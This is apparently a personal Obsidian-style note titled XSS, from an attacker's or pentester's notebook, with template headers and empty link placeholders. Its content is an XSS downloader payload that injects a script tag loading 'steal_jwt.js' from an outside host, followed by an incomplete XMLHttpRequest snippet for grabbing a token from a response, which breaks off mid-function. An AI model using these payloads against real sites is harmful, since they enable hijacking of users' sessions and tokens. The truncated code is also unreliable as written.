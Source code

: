 ```yaml
---
creation date: April 17th 2023
last modified date: April 17th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[XSS]]  
___

## Description:  

### Downloader for longer XSS payloads
```
var a=document.createElement(“script”);a.src=http://localhost:8000/steal_jwt.js;document.body.appendChild(a);
```

### stealing value set in a response

Use the downloader to pull the following code:

```
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == 4 && xhr.status == 200) {
var yourtoken = xhr.response


```
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 17th 2023 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
